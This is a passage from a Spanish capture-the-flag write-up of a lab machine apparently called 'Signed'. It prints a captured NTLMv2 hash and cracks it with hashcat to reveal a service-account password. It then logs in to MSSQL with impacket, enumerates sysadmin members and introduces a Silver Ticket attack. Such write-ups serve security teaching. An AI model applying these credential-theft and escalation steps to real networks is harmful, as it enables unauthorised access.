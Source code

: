 Y pronto recibimos el `hash` en el `responder` a consecuencia del proceso de autenticación:

```js
[SMB] NTLMv2-SSP Client   : 10.10.11.90
[SMB] NTLMv2-SSP Username : SIGNED\mssqlsvc
[SMB] NTLMv2-SSP Hash     : mssqlsvc::SIGNED:0a34dbee99ce2e15:034AC7349C2D262<SNIP!>00000000
```

El siguiente paso, es tratar de crackearlo con `hashcat` en su módulo 5600 correspondiente a `NetNTLMv2`:

```js
❯ hashcat -m 5600 hash /usr/share/wordlists/rockyou.txt
<SNIP!>
MSSQLSVC::SIGNED:<SNIP!>:purPLE9785!@
<SNIP!>
```

### Segundo Usuario: Buscando vías potenciales de elevación

Ahora, podemos acceder a `mssql` usando la cuenta de servicio:

```js
❯ impacket-mssqlclient.py 'SIGNED.HTB/MSSQLSVC:purPLE9785!@'@10.10.11.90 -windows-auth
Impacket v0.13.0.dev0+20250605.14806.5f78065 - Copyright Fortra, LLC and its affiliated companies 
<SNIP!>
SQL (SIGNED\mssqlsvc  guest@master)> 
```

Ahora, aprovechando la cuenta de servicio, podemos potencialmente, enumerar más cosas, entre ellas, enumerar los usuarios/grupos con derechos de `sysadmin`:

```js
SQL (SIGNED\mssqlsvc  guest@master)> SELECT r.name AS role, m.name AS member FROM sys.server_principals r JOIN sys.server_role_members rm ON r.principal_id=rm.role_principal_id JOIN sys.server_principals m ON rm.member_principal_id=m.principal_id WHERE r.name='sysadmin';
role       member                      
--------   -------------------------   
sysadmin   sa                          

sysadmin   SIGNED\IT                   

sysadmin   NT SERVICE\SQLWriter        

sysadmin   NT SERVICE\Winmgmt          

sysadmin   NT SERVICE\MSSQLSERVER      

sysadmin   NT SERVICE\SQLSERVERAGENT
```

Lo que nos puede saltar a la vista, es el grupo `IT`, que no es un grupo por defecto y, teniendo en cuenta que tenemos la cuenta de servicio a nuestra disposición, podemos tener un ataque potencial: `Silver Ticket` es un ataque donde nosotros mismos creamos un ticket de servicio para acceder como cualquier usuario ante el servicio, esto, es aprovechando que tenemos acceso suficiente como para firmar nosotros mismos el TGS (pues contamos con la contraseña del servicio emisor).
